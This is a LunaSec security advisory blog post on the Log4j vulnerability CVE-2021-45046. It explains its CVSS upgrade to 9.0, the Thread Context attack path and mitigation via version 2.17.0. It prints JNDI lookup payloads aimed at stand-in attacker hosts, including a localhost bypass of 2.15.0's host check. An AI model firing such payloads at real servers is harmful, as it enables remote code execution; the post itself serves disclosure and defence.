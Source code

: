 ```yaml
---
title: "Log4Shell Update: Severity Upgraded 3.7 to 9.0 for Second log4j Vulnerability (CVE-2021-45046)"
description: The second Log4j vulnerability was upgraded from a CVSS score of 3.7x (limited DOS) to a CVSS score of 9.7 (limited RCE), and we explain the impact.
slug: log4j-zero-day-severity-of-cve-2021-45046-increased
date: 2021-12-19
image: https://www.lunasec.io/docs/img/log4shell-keeps-coming.png
keywords: [log4shell, log4j, log4j2, rce, java, zero-day, mitigation]
tags: [zero-day, security, data-security, data-breaches, log4shell]
authors: [free, chris, forrest]

---
```

<!--
  ~ Copyright by LunaSec (owned by Refinery Labs, Inc)
  ~
  ~ Licensed under the Creative Commons Attribution-ShareAlike 4.0 International
  ~ (the "License"); you may not use this file except in compliance with the
  ~ License. You may obtain a copy of the License at
  ~
  ~ https://creativecommons.org/licenses/by-sa/4.0/legalcode
  ~
  ~ See the License for the specific language governing permissions and
  ~ limitations under the License.
  ~
-->

![Log4Shell Logo](https://www.lunasec.io/docs/img/log4shell-keeps-coming.png)

_The logo gets worse as the situation gets worse..._

_Originally Posted @ December 17th & Last Updated @ December 19th, 3:37pm PST_

Earlier today, the second Log4j vulnerability (CVE-2021-45046), was upgraded from a [CVSS score of 3.7](https://web.archive.org/web/20211215180723/https://logging.apache.org/log4j/2.x/security.html)
(limited DOS) to a [CVSS score of 9.0](https://logging.apache.org/log4j/2.x/security.html) (limited RCE). ~~Note: the reported
limited RCE has only been proven to be exploitable on macOS at the moment. We expect, in time, that other operating systems
will also be shown to be exploitable.~~ Update: More operating systems have been showing to be vulnerable: MacOS, Fedora, Arch Linux, and Alpine Linux.

See the bottom of this post for an example exploit payload that bypasses the checks in log4j `2.15.0`.

**Just trying to patch Log4Shell? Please read our dedicated
[Mitigation Guide](https://www.lunasec.io/docs/blog/log4j-zero-day-mitigation-guide/).**

## Context on CVE Timeline

The Log4j team had previously released version `2.15.0` on December 6th to address, which at the time had only been
privately disclosed, the Log4Shell vulnerability that abused JNDI and LDAP to allow for an easily exploitable RCE
vulnerability. We posted a
[blog post](https://www.lunasec.io/docs/blog/log4j-zero-day/) about this new RCE that, at the time, was only being posted
about by the Chinese InfoSec community on December 9th, 2021. This post made the broader InfoSec community aware of the
ongoing exploitation and resulted in a frenzy as Java developers worked to patch themselves.

The following day, on December 10th, an official CVE was associated with this RCE vulnerability as
[CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228) with the maximum possible CVSS score of
10.0.

In the days afterwards, it was realized that this fix was incomplete as bypasses were found that could result in a
limited DOS for `2.15.0` users, and, for users that had patched older Log4j releases using `formatMsgNoLookups`, these
bypasses could be used to allow for limited RCE.

Version `2.16.0` was released on December 13th to address the vulnerabilities by completely disabling JNDI by default.
The next day, on December 14th, the second vulnerability was officially given a dedicated CVE numbered CVE-2021-45046
with a limited 3.7 (now 9.0).

In this post, we're going to talk about the impact of these changes, and about why the CVSS score has changed so drastically.

<!--truncate-->

## Understanding the new bypass

With more attention on the Log4j library now from the security community, we have seen security researchers digging into the
source code of this project. @pwntester [announced on Twitter](https://twitter.com/pwntester/status/1471465662975561734)
that there is a possible RCE still present in `2.15.0`, under certain conditions.

> `2.15.0` with no formatMsgNoLookups mitigations is still vulnerable to RCE. `2.15.0` without those mitigations is vulnerable only
if attackers can control non-message parts of the pattern layout. Just to be clear, `2.15.0` disables message text lookups
by default- users need to enable them explicitly in the patterns with %m{lookups}. So mitigations are in place by default in `2.15.0`.

Version `2.15.0` was released in order to prevent RCE by only allowing LDAP connections to local addresses by default. This
development for the CVE means that there exists a bypass to these newly added security measures. Not everyone who has updated
to `2.15.0` is vulnerable to RCE as it requires a specific logging configuration. Since the `formatMsgNoLookups` property
is on by default in `2.15.0`, to be vulnerable to this RCE, message text lookups must be manually enabled with `%m{lookups}`.

However, there even still are other ways in which a message lookup can take place. Some examples are discussed on the Log4j
security page:

> The reason these measures are insufficient is that, in addition to the Thread Context attack vector mentioned above,
there are still code paths in Log4j where message lookups could occur: known examples are applications that use
Logger.printf("%s", userInput), or applications that use a custom message factory, where the resulting messages do not
implement StringBuilderFormattable. There may be other attack vectors.

To summarize, `2.15.0` introduced changes to prevent remote connections in a message lookup (ie. a connection to `some-attacker.com`
will be blocked in: `${jndi:ldap://some-attacker.com/a}`), as well as disabled message lookups when logging by default:

```
String attackerData = "${jndi:ldap://some-attacker.com/a}";

// Message lookups are blocked in this log statement. Payload will not fire by default.
logger.info("Log string, but no lookup will happen: " + attackerData);
```

These changes were still not enough to prevent message lookups by default as there are other places in the code where this could take place:

```
// Put attacker controlled data in
ThreadContext.put("layout-pattern-value", attackerData);
```

An example `log4j2.properties` file might look something like:

```
# The attacker data, "${jndi:ldap://some-attacker.com/a}", will be attempted to be looked up
appender.console.layout.pattern = ${ctx:layout-pattern-value} - %d{yyyy-MM-dd HH:mm:ss} %-5p %c{1}:%L - %m%n
```

However, since only local connections were allowed in `2.15.0`, the impacts of this vulnerability were minimal.
The most impactful way to exploit this vulnerability was to have `String attackerData = "${ctx:layout-pattern-value"`,
which would result in a recursive reference in the lookup. With the reported bypass of the restrictive remote connection
list, a full RCE is possible in the above code as we can access `some-attacker.com` now.

It is strongly recommended that you update to ~~`2.16.0`~~ `2.17.0` (updated 12/19), even if you have previously updated to `2.15.0` or `2.16.0`, to mitigate these
new bypasses. (Updated 12/19 due to new DOS found in `2.16.0`. Please upgrade to `2.17.0` to mitigate issues in previous versions.)

## Update: The localhost Bypass is Discovered!

The bypass was [posted](https://twitter.com/marcioalm/status/1471740771581652995) on Twitter by Márcio Almeida early on
December 17th.

This payload will bypass the network host restrictions in log4j `2.15.0` and allow full RCE again:
```
${jndi:ldap://127.0.0.1#evilhost.com:1389/a}
```

We are still investigating how to have this exploit work properly on other operating systems. It has been proposed that
[changing the default provider](https://docs.oracle.com/javase/7/docs/technotes/guides/net/properties.html#:~:text=sun.net.spi.nameservice.provider.%3Cn%3E%3D%3Cdefault%7Cdns%2Csun%7C...%3E)
to `dns,sun`:

```
System.setProperty("http://sun.net.spi.nameservice.provider.1", "dns,sun")
```

will cause the exploit to bypass the allowed hosts check in `2.15.0` properly. However, we have not been able to replicate
this yet.

## Stay Updated

Please follow us on [Twitter](https://twitter.com/LunaSecIO) or add yourself to our mailing list below, and we'll
update you when we publish new findings.

If this post helped you, please share it with others to help them too.


<ContactForm/>

## Additional Information

We have published a series of posts about Log4Shell on our blog that you might be interested in:
- **[Mitigation Guide](https://www.lunasec.io/docs/blog/log4j-zero-day-mitigation-guide/)**
- **[Original Log4Shell Announcement](https://www.lunasec.io/docs/blog/log4j-zero-day/)**
- **[Part 1: Log4Shell Live Patch (Background Context)](https://www.lunasec.io/docs/blog/log4shell-live-patch/)**
- **[Part 2: Log4Shell Live Patch (Technical Deep-Dive)](https://www.lunasec.io/docs/blog/log4shell-live-patch-technical/)**

### Limited Offer: Free Security Assistance

We're also currently offering a free 30-minute consultation with one of our Security Engineers. If you're interested,
please [book some time with us here](https://lunasec.youcanbook.me/).

## Updates

:::info
We're continuously keeping this post up-to-date as new information comes out. If you have any questions, or you're
confused about our advice, please [file an Issue](https://github.com/lunasec-io/lunasec/issues) on GitHub.

If you would like to contribute, or notice any errors, this post is an Open Source Markdown file on
[GitHub](https://github.com/lunasec-io/lunasec/blob/master/docs/blog/2021-12-17-log4j-update-increased-cvss.mdx).
:::

### Edits

1. Added a note that RCE has only been provably exploitable on macOS.
2. 12/19/21: Updated info about 2.17.0 release due to CVE.
1. Added a note that the RCE has been provably exploitable on MacOS, Fedora, Arch Linux, and Alpine Linux.
